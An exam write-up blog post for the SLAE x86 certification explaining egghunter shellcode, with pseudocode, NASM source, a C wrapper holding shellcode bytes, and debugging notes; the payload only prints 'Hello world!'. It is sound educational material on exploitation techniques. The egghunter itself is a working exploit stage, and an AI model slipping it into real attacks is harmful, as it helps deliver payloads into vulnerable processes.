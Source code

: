 ```yaml
---
layout: post
title: "SLAE x86 Exam Part 3"
description: "SLAE x86 Exam Part 3: Egghunter"
modified: 2018-05-30T05:30:00-05:00
tags: [pentest, asm, x86, slae]
---
```


# Overview
This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](/http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1260

---

In this portion of the exam, we explore the Egghunter shellcode.  This is a
method for locating pieces of shellcode within a program without knowing 
exactly where to look, useful when you need to break shellcode up into several
pieces and distribute it throughout the rest of the code.  I have derived the
majority of this writeup from Skape's seminal whitepaper[^1] on the subject,
titled "Safely Searching Process Virtual Address Space".  This paper is a
fantastically informative read, covering Egghunter at a conceptual level and
providing descriptions of several implementations on both Linux and Windows.  

## Egghunter concept

Generally, Egghunter works by traversing the entire memory space of a program
looking for a pre-defined "key", a sequence of several bytes that is (more or
less) guaranteed not to appear elsewhere in the code.  Once it finds its 
target, the program jumps to this location and continues with its execution.

There are several challenges associated with doing this, the most significant 
being that most programs don't handle attempts to access uninitialized memory 
space gracefully.  On Linux, there are only a handful of ways to do this while
keeping the shellcode small enough to be useful.  The 3 examples analyzed in 
the paper for doing so all query the kernel using system calls to find out if a
specific section of memory is valid and accessible without causing a
segmentation fault.  

## Egghunter implementation

I chose to focus on the second `access(2)` implementation in Skape's paper,
since it seemed to be the most time- and space-efficient while maintaining a
high level of robustness.  

Here is a pseudocode representation of this example:

{% highlight markdown %}

check_page(addr):
    align addr to start of next page
    check_addr(addr):
        call access(addr)
        EFAULT returned?
            goto check_page(addr)
        compare current and next DWORDs to egg
            jump to DWORD after egg if true
            otherwise, goto check_addr(addr+1)

{% endhighlight %}

This code makes highly effective use of the `scas` instruction[^2] when making
memory comparisons.  This approach has the additional benefit of automatically
incrementing (assuming the `DF` flag is set to `0`) the address stored in the
`EDI` register after each comparison.  

In this implementation, the key for which we are searching must appear twice in
succession to be considered 'found', to avoid triggering a false positive on the
declaration of the key itself.  There are other ways to do this, but none that
are as space-efficient.

Here is a proof-of-concept with both the egghunter code and the payload:

{% highlight nasm %}
global _start

section .text
_start:
    jmp egghunter       ; Go to Egghunter code

payload:
    xchg eax,ecx        ; Key, twice...
    xchg eax,edx
    xchg eax,edx
    xchg eax,ecx
    xchg eax,ecx
    xchg eax,edx
    xchg eax,edx
    xchg eax,ecx

    xor ebx, ebx        ; Begin "Hello world!" payload
    mul ebx             
    or al, 0x4
    inc ebx
    mov ecx, message
    mov dl, mlen
    int 0x80
    
    xor ebx, ebx        ; Exit 
    mul ebx
    inc eax
    int 0x80
    
egghunter:
    xor edx, edx        ; Register initialization

next_page:
    or dx, 0xfff        ; Align to next page

next_addr:
    inc edx             ; Increment addr in current page
    
    lea ebx, [edx+0x4]  ; ACCESS arg1: addr to check
    push byte 0x21      ; Load ACCESS syscall...
    pop eax             ; ...into EAX
    int 0x80            ; Exec interrupt

    cmp al, 0xf2        ; EFAULT returned?
    jz next_page        ; If so, skip to next page

    mov eax,0x91929291  ; Key
    mov edi,edx         ; Populate EDX for scasd
    scasd               ; Compare to key
    jnz next_addr       ; Jump if not matched
    scasd               ; Compare 2nd time
    jnz next_addr       ; Jump if not matched
    jmp edi             ; Jump to address after key
    
section .data:
    message: db "Hello world!", 0xA
    mlen equ $-message
{% endhighlight %}

Alternatively, here's a C wrapper:

{% highlight c %}
#include <stdio.h>
#include <string.h>

#define KEY "\x91\x92\x92\x91"

unsigned char egghunter[] = 
    "\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a"
    "\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8" KEY
    "\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char payload[] = 
    KEY
    KEY
    "\x31\xdb\xf7\xe3\x43\x50\x0c\x04\x68\x61\x62\x63"
    "\x0a\x89\xe1\x88\xc2\xcd\x80\x89\xd8\xcd\x80";

int main(int argc, char **argv) {
    printf("Egghunter length: %d\n", strlen(egghunter));
    printf("Payload length: %d\n", strlen(payload));
    int (*ret)() = (int(*)())egghunter;
    ret();
}
{% endhighlight %}

I encountered some difficulty getting the C wrapper to work without segfaulting;
eventually, I discovered it was because I had a residual data in `ECX` going
into the `ACCESS` syscall.  Because of this, I was getting a return value of
`0xFFFFFFEA` (-22/`EINVAL`, according to 
`/usr/include/asm-generic/errno-base.h`); my egghunter was blowing through the 
jump after `cmp al,0xf2`, trying to look in address `0x1000` for the egg, and 
subsequently segfaulting.  Changing the `xor edx, edx` at the beginning to `xor 
ecx, ecx; mul ecx` did the trick.  

## Screenshots

![Execution of egghunter code]({{ "/assets/images/3.1-egghunter.png" | absolute_url}})

---

[^1]: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf
[^2]: https://c9x.me/x86/html/file_module_x86_id_287.html
